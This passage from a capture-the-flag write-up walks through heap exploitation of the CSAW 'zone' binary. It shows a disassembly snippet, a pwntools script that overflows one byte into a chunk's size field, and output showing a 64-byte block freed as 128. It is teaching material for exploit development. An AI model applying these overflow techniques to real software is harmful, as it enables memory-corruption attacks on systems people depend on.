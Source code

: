 ```
0000000000404437         mov        edi, 0xffffffff                             ; argument "status" for method j_exit, CODE XREF=something_print_free_amount+99, something_print_free_amount+117
000000000040443c         call       j_exit
                        ; endp
```
Long story short, if the freed amount isn't 64, 128, 256, or 512, the program calls exit and closes, bummer. But wait! 64 and 128 are both one byte! I bet if we change the size from 64 to 128, something neat might happen. Using our previous process, we'll make a block of size 64, write 64 'A's to it, followed by '\x80'. We'll free that and see if the program stays up. To assist with all these operations, I went ahead and wrote a program to handle interaction with the binary. That will also come in handy later for the actual exploit.
```python
from pwn import *

p = process('./zone')

def menu():
    p.recvuntil('5) Exit\n')

menu()

def allocate(size):
    p.sendline('1')
    p.sendline(str(size))
    menu()

def delete():
    p.sendline('2')
    retval = int(p.readline().split()[2])
    menu()
    return retval

def write(content):
    p.sendline('3')
    p.sendline(content)
    menu()

def print_block():
    p.sendline('4')
    retval = p.recvuntil('\n1) ')
    menu()
    return retval

allocate(64)
write('A'*64 + '\x80')
allocate(64)
p.interactive()
```
Running our python script and then typing '2' to delete a block, we get this:
```
root@hackbox:/home/anichno/csaw/zone# python tut.py 
[+] Starting local process './zone': pid 20424
ENV: 0x7fffffffe3e0
[*] Switching to interactive mode
$ 2
Free size 128
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
```
Very cool! It thinks it just freed a block of size 128, but that was really a block of size 64!